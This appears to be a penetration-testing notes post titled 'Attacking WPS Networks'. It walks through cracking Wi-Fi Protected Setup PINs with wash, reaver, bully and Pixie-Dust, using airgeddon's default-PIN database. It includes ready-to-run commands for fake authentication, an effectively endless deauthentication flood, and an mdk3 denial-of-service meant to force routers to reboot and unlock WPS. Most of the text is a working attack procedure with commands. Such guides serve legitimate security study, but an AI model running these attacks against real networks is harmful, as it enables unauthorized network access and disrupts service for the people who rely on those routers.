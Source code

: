 ```yaml
---
description: >-
  Attacking WPS Networks
title:  Attacking WPS Networks      # Add title here
date: 2023-09-27 08:00:00 -0600                           # Change the date to match completion date
categories: [18 Wireless, Wireless Attacks]                     # Change Templates to Writeup
tags: [wireless, wps]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```


### WPS

WPS makes configuring new devices easier for users with little networking or security knowledge. For the most part, all they have to do is input a PIN code or push a button.

Method to authenticate to WPA without the passphrase, only with a 8 character ping. It can be cracked faster because of its length, and once obtained, the WPA/WPA2 passphrase can be automatically recovered.

Requirements (hard to find nowadays)
- WPS must be enabled
- WPS must be using ``pin authentication`` and not PBC (Push Button Configuration). With option, a physical button in the router must be pushed to activate the use of WPS for some time interval. PBC usually is active by default in modern routers, or WPS is directly disabled by default.

#### Enumeration

```bash
# Find APs with WPS activated (exit with ctrl-C)
wash --interface wlan0mon  
wash -i wlan0mon
# scan 5GHz band
wash -i wlan0mon -5

# show WPS status for WPA networks
airodump-ng wlan0 --wps
```
#### Basic Brute Force
```bash
# The Lck column says if WPS is locked (sometimes WPS gets locked after some failed attempts). WPS version 2 includes mitigations against brute force, but depending on the implementation it may only slow it down.

# The next command brute forces WPS pins, online cracking similar to hydra (-vvv for verbose, --no-associate if we have previously associated with aireplay-ng --fakeauth)
reaver -b <AP bssid> -i wlan0mon -v
reaver --bssid <AP bssid> --channel <AP channel> --interface wlan0mon -vvv --no-associate
```

#### PixieWPS Attack
```bash
# Pixie attack (-K), faster than the regular brute force, but doesn't always work, depends on the AP PRGA 
reaver -b <AP BSSID> -i wlan0mon -v -K

# When the previous command is sent it stays waiting if we are not associated with the AP. We can do it with aireplay, so that the AP doesn't ignore the future packets that we will send (instead of 0 we can use a certain number of seconds to be associated)
sudo aireplay-ng --fakeauth 30 -a <AP bssid> -h <our own MAC> wlan0mon

# Bully command
bully -d -b 10:A7:93:BE:F0:B0 -e IZZI-F0AC -c 11 wlan0 

```
Reaver outputs the WPS pin if it can find it, and thanks to it it also retrieves the passphrase (WPA-PSK), which we can use to connect to the network. Even if it finds it, it's an slow attack, it can take a few hours to complete, depending on the router AP configuration and the value of the pin (if it's one of the last ones reaver tries)

These attacks usually fail, there are several possible sources of problems. Reaver can say that the AP is deauthenticating us, among other error messages. If WPS cracking doesn't work right away it probably won't work at all. Even if an AP's WPS is not locked the attacks can fail for other reasons. For example, some routers timeout WPS after a short time since it was activated.

There are APs that don't use a pin. With bully and reaver we can use the ``-p ''`` option to check if the pin is empty

Some APs use a pin that is linked to the first three bytes of the BSSID. Airgeddon contains them in known_pins.db

To check if a certain BSSID has known default pins, use the first three bytes of the AP (without the colon symbols, in this case XXYYZ for a BSSID= XX:YY:ZZ:AA:BB:CC)

```bash
source /usr/share/airgeddon/known_pins.db
echo ${PINDB["XXYYZZ"]}
14755989 48703970 06017637
```

Try manually the pins returned, if any

troubleshooting the reaver:
1- If it says it cannot associate with the AP -> we need to associate manually with aireplay-ng --fakeauth in another terminal, and keep the fake auth running while we try the reaver attack (which we must run with the -A option, so that it doesn't try to associate itself to the AP, since we already are associated via aireplay-ng)

2- Reaver says WPS transaction failed, re-trying last ping (we can see this with -vvv for debugging output). Then it retries the same pin all the time. Sometimes (we can see in the output) this is due to the use of NACK packets. We can try with the option -N (or --no-nacks) to not send them.

3- If reaver says "Waiting for beacon from XX:XX:XX:XX:XX:XX" we need to specify the channel manually (-c parameter) 

4- The AP can have rate limiting enabled, and change state to locked (Lck) after some failed attempts. If we suspect the AP locked WPS, run ``wash`` again to check if it's in the Lck state. We can deauthenticate permanently all clients connected, so that someone complains or restarts the AP, so that we can continue bruteforcing pins. This is very clumsy and noisy, and if the rate limiting occurs fast it's probably going to be useless, as we will quickly lock WPS again.
We can run this "permanent" deauth with
``sudo aireplay-ng --deauth 1000000000000 -a <AP bssid> wlan0mon``

We can also try the ``mdk3`` tool, which can cause DoS to some routers and perhaps force them to restart. Some routers unlock WPS when they restart

```bash
# DoS to an AP, with different MACs, as if it were a DDoS. Some routers reboot when too many different MACs try to connect to them because they cannot handle so many connections

# Help of the "a" option of mdk3 (used for DoS) withs
mdk3 --help a 

# DoS (-m for using real looking MACs, not arbitrary ones like 00:00:00:00:00:00)
mdk3 wlan0mon a -a <AP BSSID> -m
```
Clients connect in amounts of 500 and it may say that it is vulnerable, or it may not say it. When we reach about 10000 stop ``mdk3`` and use ``wash`` to check if WPS got unlocked (if the AP rebooted it will take a while before we can get useful output from ``wash``)


- karma attack: the fake AP listens to probes sent by clients when they search for known APs and responds, telling them that he is the AP they are looking for
